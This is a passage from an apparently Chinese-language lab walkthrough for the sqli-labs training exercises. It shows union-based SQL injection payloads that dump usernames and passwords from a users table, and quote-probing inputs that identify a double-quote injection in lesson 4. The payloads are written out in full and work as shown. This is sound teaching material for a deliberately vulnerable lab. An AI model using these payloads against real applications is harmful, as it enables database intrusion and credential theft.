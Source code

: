 
**爆数据**

```sql
?id=-1') union select 1,group_concat(id,username,password) ,3 from users--+
```

![image-20201106200349876](sqli-labs1-20/image-20201106200349876-1604667081399.png)

或者 查询数据

```sql
?id=-1') union select 1,username,password from users where id=3--+
```

![image-20201106200631160](sqli-labs1-20/image-20201106200631160-1604667081399.png)



## less-4

根据提示，知道这是双引号注入

```sql
?id=1'没错误
?id=1"错误
发现是双引号加括号形成的查询语句
?id=1")--+正确回显
```

![image-20201106211359829](sqli-labs1-20/image-20201106211359829.png)
